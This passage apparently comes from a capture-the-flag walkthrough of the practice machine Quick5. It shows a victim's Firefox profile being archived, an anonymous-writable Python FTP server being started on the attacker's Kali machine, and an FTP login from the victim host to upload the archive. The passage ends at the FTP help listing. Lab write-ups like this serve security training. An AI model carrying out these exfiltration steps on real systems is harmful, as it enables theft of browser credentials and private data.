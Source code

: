 ```bash
firefox/3779/.config/dconf/user
firefox/3779/.config/user-dirs.locale.md5sum
firefox/3779/.config/gtk-2.0/
firefox/3779/.config/gtk-2.0/gtkfilechooser.ini
firefox/3779/.config/fontconfig/
firefox/3779/.config/fontconfig/fonts.conf
firefox/3779/.themes
firefox/current
firefox/common/
firefox/common/.mozilla/
firefox/common/.mozilla/extensions/
firefox/common/.mozilla/firefox/

< ------ SNIP ------ >
```
Let's check if  the archive have been created.
```bash
andrew@quick5:~/snap$ ls -la
ls -la
total 38252
drwx------  3 andrew andrew     4096 Feb 20 15:07 .
drwxr-x--- 16 andrew andrew     4096 Feb 20 14:22 ..
drwxr-xr-x  4 andrew andrew     4096 Feb 20 12:26 firefox
-rw-rw-r--  1 andrew andrew 39157491 Feb 20 15:07 firefox.tar.gz
```
The archive have been created, now we have to exfiltrate it. We can start a Python FTP server so we can upload files to our machine.

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick5]
└─$ sudo python -m pyftpdlib -i 10.0.2.15 -p 21 -w
[sudo] password for emvee: 
/usr/local/lib/python3.11/dist-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2024-02-20 22:01:39] concurrency model: async
[I 2024-02-20 22:01:39] masquerade (NAT) address: None
[I 2024-02-20 22:01:39] passive ports: None
[I 2024-02-20 22:01:39] >>> starting FTP server on 10.0.2.15:21, pid=11500 <<<

```
Next we have to logon as anonymous and upload the archive.

```bash
andrew@quick5:~/snap$ ftp 10.0.2.15
ftp 10.0.2.15
anonymous
Password: a
Name (10.0.2.15:andrew): help
Commands may be abbreviated.  Commands are:

!               epsv6           mget            preserve        sendport
$               exit            mkdir           progress        set
account         features        mls             prompt          site
append          fget            mlsd            proxy           size
ascii           form            mlst            put             sndbuf
bell            ftp             mode            pwd             status
binary          gate            modtime         quit            struct
bye             get             more            quote           sunique
case            glob            mput            rate            system
cd              hash            mreget          rcvbuf          tenex
cdup            help            msend           recv            throttle
chmod           idle            newer           reget           trace
close           image           nlist           remopts         type
cr              lcd             nmap            rename          umask
```